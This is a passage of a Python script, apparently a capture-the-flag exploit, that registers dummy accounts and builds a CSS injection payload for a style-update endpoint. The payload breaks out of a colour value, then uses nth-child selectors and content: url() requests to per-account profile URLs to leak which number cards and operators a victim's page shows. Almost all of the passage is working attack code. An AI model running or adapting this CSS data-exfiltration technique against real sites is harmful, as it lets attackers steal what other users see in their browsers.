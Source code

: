 ```python
            data = {"username": f"{u}", "password": "12341234"}
            r = requests.post(reg_url, data=data, headers={"Content-Type": "application/x-www-form-urlencoded"})
            token_pro(u, r.json().get("token")) 
        users = ["x", "xx", "152", "1007", "plus", "minus", "mul", "div"]
        for u in users:
            data = {"username": f"{dummy_pref+u}", "password": "12341234"}
            r = requests.post(reg_url, data=data, headers={"Content-Type": "application/x-www-form-urlencoded"})
            token_pro(dummy_pref+u, r.json().get("token"))

def token_pro(u, t):
    print(u)
    dummyaccs[u] = t

create_users()
    
def make_operation():
    stri =""
    for i in range(5):
        stri += f".operation:nth-child({i+1})>.number-card--locked:nth-child(5)"+ "{content: url('/api/profile/" +f"{dummy_pref+'r'+str(i)}')" +"}"
    return stri

def make_filled():
    stri =""
    def repeat_1():
        x =""
        for i in range(1, 8):
            x += f".source-cards>.number-card:nth-child({i}).number-card--anim-popout:not(.number-card--2-chars):not(.number-card--3-chars):not(.number-card--4-chars)"+ "{content: url('/api/profile/" +f"{dummy_pref+'x'}')" +"}"
        return x
    def repeat_2():
        x =""
        for i in range(1, 8):
            x += f".source-cards>.number-card--2-chars.number-card--anim-popout:nth-child({i})"+ "{content: url('/api/profile/" +f"{dummy_pref+'xx'}')" +"}"
        return x
    def repeatop():
        x = ""
        ops = ["plus", "minus", "mul", "div"]
        for i in range(len(ops)):
            x += f".operators>.number-card--anim-popout:nth-child({str(i+1)})"+ "{content: url('/api/profile/" +f"{dummy_pref+ ops[i]}')" +"}"
        return x
    stri += repeatop()
    stri+=repeat_1()
    stri+=repeat_2()
    stri += f".source-cards>.number-card--3-chars.number-card--anim-popout"+ "{content: url('/api/profile/" +f"{dummy_pref+'152'}')" +"}"
    stri += f".source-cards>.number-card--4-chars.number-card--anim-popout"+ "{content: url('/api/profile/" +f"{dummy_pref+'1007'}')" +"}"
    return stri

pre ="#000; }"
pre += make_filled()
pre += make_operation()
pre += '/*"'

print(pre)

us_url = f"{link_pref}" + "/api/update_style"
```